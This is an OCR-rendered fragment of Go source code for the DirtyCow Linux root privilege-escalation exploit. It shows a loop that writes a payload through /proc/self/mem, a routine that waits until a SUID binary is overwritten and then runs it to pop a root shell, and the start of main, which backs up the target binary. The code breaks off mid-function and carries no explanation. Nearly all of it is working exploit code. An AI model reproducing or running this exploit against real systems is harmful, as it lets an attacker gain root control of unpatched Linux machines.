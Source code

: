 ```go

func procselfmem(payload []byte) {
    f, err := os.OpenFile("/proc/self/mem", syscall.O_RDWR, 0) 
    if err != nil {
        log.Fatal(err) 
    }
    for i := 0; i < 1000000; i++ { 
        select {
        case <- signals: 
            fmt.Println("procselfmem done") 
            return
        default:
            syscall.Syscall(syscall.SYS_LSEEK, f.Fd(), mapp, uintptr(os.SEEK_SET))
            f.Write(payload) 
        }
    } 
}

func waitForWrite() {
    buf := make([]byte, len(sc)) 
    for {
        f, err := os.Open(SuidBinary) 
        if err != nil {
            log.Fatal(err) 
        }
        if _, err := f.Read(buf); err != nil { 
            log.Fatal(err)
        }
        f.Close()
        if bytes.Compare(buf, sc) == 0 {
            fmt.Printf("%s is overwritten\n", SuidBinary)
            break 
        }
        time.Sleep(1*time.Second) 
    }
    signals <- true 
    signals <- true

    fmt.Println("Popping root shell") 
    fmt.Println("Don't forget to restore /tmp/bak\n")
    attr := os.ProcAttr {
        Files: []*os.File{os.Stdin, os.Stdout, os.Stderr},
    }
    proc, err := os.StartProcess(SuidBinary, nil, &attr) 
    if err !=nil {
        log.Fatal(err) 
    }
    proc.Wait()
    os.Exit(0) 
}

func main() {
    fmt.Println("DirtyCow root privilege escalation") 
    fmt.Printf("Backing up %s.. to /tmp/bak\n", SuidBinary)
    backup := exec.Command("cp", SuidBinary, "/tmp/bak") 
    if err := backup.Run(); err != nil {
        log.Fatal(err) 
    }
    f, err := os.OpenFile(SuidBinary, os.O_RDONLY, 0600) 
    if err != nil {
        log.Fatal(err) 
    }
    st, err := f.Stat() 
```